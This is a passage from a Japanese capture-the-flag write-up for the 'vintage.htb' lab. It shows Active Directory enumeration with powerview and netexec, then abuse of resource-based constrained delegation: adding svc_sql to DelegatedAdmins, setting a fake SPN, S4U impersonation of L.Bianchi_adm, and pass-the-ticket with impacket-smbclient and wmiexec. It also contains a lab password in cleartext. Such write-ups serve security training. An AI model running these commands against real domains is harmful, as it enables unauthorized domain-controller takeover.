powerview -k --no-pass vintage.htb/P.Rosa@dc01.vintage.htb
```

```powershell
Get-DomainComputer -RBCD -Select cn,msDS-AllowedToActOnBehalfOfOtherIdentity
Get-DomainObject -Identity S-1-5-21-4024337825-2033394866-2055507597-1131
```



netexecでも確認できました。こちらの方が分かりやすいです。

```bash
netexec ldap dc01.vintage.htb -k --use-kcache --find-delegation
```



`msDS-AllowedToActOnBehalfOfOtherIdentity`は、Kerberos制約付き委任 (Resource-Based Constrained Delegation) を設定するために使用されるActive Directory属性です。この属性を使用すると、特定のアカウントが他のアカウントに代わってアクションを実行することが許可されます。

今回のケースでは、DC01というドメインコントローラーの`msDS-AllowedToActOnBehalfOfOtherIdentity`属性が`DelegatedAdmins`というグループに対して設定されています。これは、`DelegatedAdmins`グループに属するアカウントが、DC01上で他のアカウントの代理として動作することが許可されていることを意味します。

これらの情報をまとめると以下のようになります。

### 権限の確認

1. **msDS-AllowedToActOnBehalfOfOtherIdentity**:
   - DC01の`msDS-AllowedToActOnBehalfOfOtherIdentity`が`DelegatedAdmins`グループに対して設定されている。
   - `DelegatedAdmins`グループには、`L.Bianchi_adm`が含まれている。
2. **権限の所有者**:
   - `C.Neri_adm`は`DelegatedAdmins`グループに対して`GenericWrite`の権限を持っている。
   - `C.Neri`は`svc_sql`に対して`GenericAll`の権限を持っている。

### 理論的背景

- msDS-AllowedToActOnBehalfOfOtherIdentity
  - これは、Kerberosのプロトコル拡張であるリソースベースの制約委任（Resource-Based Constrained Delegation, RBCD）を設定するための属性です。この属性が設定されていると、特定のアカウントが他のアカウントとして動作できるようになります。
  - 今回は、`DelegatedAdmins`グループに対してこの属性が設定されているため、`svc_sql`ユーザーをこのグループに追加することで、`svc_sql`が他の`DelegatedAdmins`メンバー（`L.Bianchi_adm`を含む）として動作できるようになります。
- S4U2SelfとS4U2Proxy
  - `S4U2Self`（Service for User to Self）を使うと、サービスはクライアントのTGTなしで、クライアントのTGSを取得できます。
  - `S4U2Proxy`（Service for User to Proxy）を使うと、取得したクライアントのTGSを使って、他のサービスへのTGSを取得できます。これは、リソースベースの制約委任の一部です。
  - 今回のシナリオでは、`svc_sql`が`DelegatedAdmins`に追加されることで、`L.Bianchi_adm`としてのTGSを取得し、そのTGSを使って他のサービスにアクセスすることが可能になります。

### 実践

まずは `svc_sql` を `DelegatedAdmins` のグループに追加します。

```bash
export KRB5CCNAME=C.Neri_adm.ccache
powerview -k --no-pass vintage.htb/C.Neri_adm@dc01.vintage.htb
```

```powershell
Add-DomainGroupMember -Identity DelegatedAdmins -Members svc_sql
Get-DomainGroupMember -Identity DelegatedAdmins
```



今度は `C.Neri` から `svc_sql` にServicePrincipalNameを設定します。

```bash
export KRB5CCNAME=C.Neri.ccache
powerview -k --no-pass vintage.htb/C.Neri@dc01.vintage.htb
```

```powershell
Set-DomainObject -Identity svc_sql -Set 'ServicePrincipalName=cifs/fake'
Get-DomainObject -Identity svc_sql -Properties ServicePrincipalName
```



つづいて `svc_sql` のTGTを取得します。

```bash
impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/svc_sql:Zer0the0ne
export KRB5CCNAME=svc_sql.ccache
```



S4U2Selfを使用してL.Bianchi_admのTGSを取得します。



攻撃に成功し、`L.Bianchi_adm` のTGSチケットを取得できました。

## Pass The Ticket

```bash
export KRB5CCNAME=L.Bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

ドメインコントローラーには `L.Bianchi_adm` のローカルアカウントが存在しないのでpsexecを使うことはできません。

`impacket-smbclient`,`impacket-wmiexec`で`L.Bianchi_adm` としてアクセスすることでフラグを取得できました。

```bash
impacket-smbclient -k -no-pass dc01.vintage.htb -debug
```



```bash
impacket-wmiexec -k -no-pass dc01.vintage.htb
```


